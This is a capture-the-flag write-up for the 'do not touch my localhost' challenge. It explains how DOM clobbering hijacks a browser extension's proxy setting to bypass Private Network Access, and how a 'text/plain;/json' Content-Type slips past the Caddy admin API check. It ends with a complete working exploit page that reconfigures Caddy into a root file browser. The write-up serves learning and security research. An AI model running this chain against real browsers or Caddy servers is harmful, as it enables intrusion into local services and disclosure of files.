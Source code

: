 # write up for do not touch my localhost

### TL;DR

There are two key points in this challenge:

The first one is to control the browser extension to modify the proxy so that newly loaded pages are proxied to localhost, thus bypassing private network access checks.

The second one is to bypass the Content-Type checking in Caddy and modify Caddy's configuration to make it as a file browsing server.

### bypass private network access

You can read the [private network access](https://wicg.github.io/private-network-access/) (PNA) document to understand how it works. It is mentioned in the [document](https://wicg.github.io/private-network-access/#proxies) that, for web pages that use a proxy, its remote address will be considered as the address of the proxy server. So we can bypass the PNA by setting the proxy to localhost.

Since the javascript context of content script(extension) is isolated from the context of page, but they share the same DOM, the first step is to pollute proxy_options with DOM clobbering. 

```js
// code in the content script
window.proxy_options = null;
window.postMessage({
    type: "setProxy",
    options: {"hostname":"1.2.3.4","port":12345}
}, "*")
```

We can use `<a id="proxy_options" href="http://server"></a>` to set proxy_options to our server address, and then load `blocker.js` again to trigger the proxy modification. Then use the meta tag to load our own HTML content.

```html
<a id="proxy_options" href="http://server"></a>
<script src="/static/js/blocker.js"></script>
<meta http-equiv="refresh" content="1; URL='/exp.html'" />
```

We can start a man-in-the-middle server to modify the contents of `exp.html`. First, set the proxy back to localhost, then create an iframe with the same origin as the challenge web service but with uncached pages (e. g., /404). The remote address of this iframe will be assumed to be localhost, thus bypassing the PNA check. Then get the eval function of this iframe and execute fetch to modify Caddy's configuration.

```js
window.postMessage({ type: "setProxy", options: { hostname: "127.0.0.1", port: 8080 } },"*");
setTimeout(function () {
    const iframe = document.createElement("iframe");
    iframe.src = "/404";
    document.body.appendChild(iframe);
    setTimeout(function () {
        iframe.contentWindow.eval('fetch("http://127.0.0.1:2019/config/")');
    }, 100);
}, 100);
```

### modify Caddy's configuration

Caddy will open the administration endpoint by default on the `127.0.0.1:2019`. This [document](https://caddyserver.com/docs/json/apps/http/servers/routes/match/file/) describes how to setting up Caddy as a file server. All we need to do is set "root" to "/" and read the flag from Caddy.

There are two [API](https://caddyserver.com/docs/api) endpoints where you can modify the configuration, and after reading the source code I found some issues with the `/config/` implementation.

```go
// admin.go:911
func handleConfig(w http.ResponseWriter, r *http.Request) error {
	switch r.Method {
	case http.MethodGet:
        // ...
	case http.MethodPost,
		http.MethodPut,
		http.MethodPatch,
		http.MethodDelete:

		// DELETE does not use a body, but the others do
		var body []byte
		if r.Method != http.MethodDelete {
            //It determines whether to load the configuration by checking if the Content-Type contains "/json" or not
			if ct := r.Header.Get("Content-Type"); !strings.Contains(ct, "/json") {
				return APIError{
					HTTPStatus: http.StatusBadRequest,
					Err:        fmt.Errorf("unacceptable content-type: %v; 'application/json' required", ct),
				}
			}

			buf := bufPool.Get().(*bytes.Buffer)
			buf.Reset()
			defer bufPool.Put(buf)

			_, err := io.Copy(buf, r.Body)
			if err != nil {
				return APIError{
					HTTPStatus: http.StatusBadRequest,
					Err:        fmt.Errorf("reading request body: %v", err),
				}
			}
			body = buf.Bytes()
		}

		forceReload := r.Header.Get("Cache-Control") == "must-revalidate"

		err := changeConfig(r.Method, r.URL.Path, body, r.Header.Get("If-Match"), forceReload)
		if err != nil && !errors.Is(err, errSameConfig) {
			return err
		}
    // ...
}
```

According to the policy of [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS), if you do not want to send a preflight request when cross origin, then the request can only be GET or POST request, and the headers which can be set manually are only "Accept"，"Accept-Language"，"Content-Language"，"Content-Type"，"Range". And the  type/subtype combinations of [media type](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types) that Content-Type can accept are only "application/x-www-form-urlencoded"，"multipart/form-data"，"text/plain".

But the rule does not restrict the value of the media type parameter, so we can specify a Content-Type like "text/plain;/json" to make Caddy recognize the json we send.

The full exp.html:

```html
<!DOCTYPE html>
<html lang="en">
  <body>
    <script>
      window.postMessage({ type: "setProxy", options: { hostname: "127.0.0.1", port: 8080 } },"*");
      setTimeout(function () {
        const iframe = document.createElement("iframe");
        iframe.src = "/404";
        document.body.appendChild(iframe);
        setTimeout(function () {
          iframe.contentWindow.eval('fetch("http://127.0.0.1:2019/config/",{"method":"POST","body":`{"apps":{"http":{"http_port":8888,"https_port":8443,"servers":{"srv0":{"listen":[":8888"],"routes":[{"handle":[{"handler":"vars","root":"/"},{"browse":{},"handler":"file_server"}],"terminal":true}],"automatic_https":{"disable_redirects":true}}}}}}`,"mode":"no-cors","headers":{"content-type":"text/plain;/json"}})');
        }, 100);
      }, 100);
    </script>
  </body>
</html>
```


